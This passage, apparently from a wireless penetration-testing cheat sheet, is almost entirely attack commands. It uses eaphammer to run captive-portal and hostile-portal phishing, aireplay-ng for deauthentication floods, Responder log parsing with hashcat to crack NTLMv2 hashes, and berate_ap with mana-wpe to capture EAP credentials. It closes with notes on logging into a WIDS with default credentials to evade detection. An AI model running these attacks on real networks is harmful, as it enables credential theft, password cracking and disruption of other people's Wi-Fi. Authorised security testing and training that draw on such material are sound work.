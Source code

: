 ## Advanced Attacks

### Captive Portal Phishing

```bash
cd ~/tools/eaphammer
sudo killall dnsmasq

# Launch captive portal attack
./eaphammer --essid [TARGET_PROBE] --interface wlan4 --captive-portal

# Deauth target client (in parallel)
iwconfig wlan0mon channel [CHANNEL]
aireplay-ng -0 0 wlan0mon -a [AP_MAC] -c [CLIENT_MAC]
```

### Hostile Portal with Responder

```bash
cd ~/tools/eaphammer
sudo killall dnsmasq

# Launch hostile portal
./eaphammer --essid [TARGET_PROBE] --interface wlan2 --hostile-portal

# Extract and crack captured hashes
cat logs/Responder-Session.log | grep NTLMv2 | grep Hash | awk '{print $9}' > responder.5600
hashcat -a 0 -m 5600 responder.5600 ~/rockyou-top100000.txt --force
```

### Certificate Preparation for Advanced Attacks

```bash
# Convert certificates to proper formats
openssl x509 -in ca.crt -out hostapd.ca.pem -outform PEM
openssl x509 -in server.crt -out hostapd.cert.pem -outform PEM
openssl rsa -in server.key -out hostapd.key.pem
openssl dhparam -out hostapd.dh.pem 2048

# Use with berate_ap
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan4 lo [NETWORK_NAME] --eap-cert-path /path/to/certs/
```

## WIDS Evasion

### Nzyme Analysis

```bash
# Access WIDS interface
firefox http://127.0.0.1:22900/

# Default credentials: admin/admin
# Check alerts section for attack detection
# Identify oldest alerts and attacker MAC addresses
```
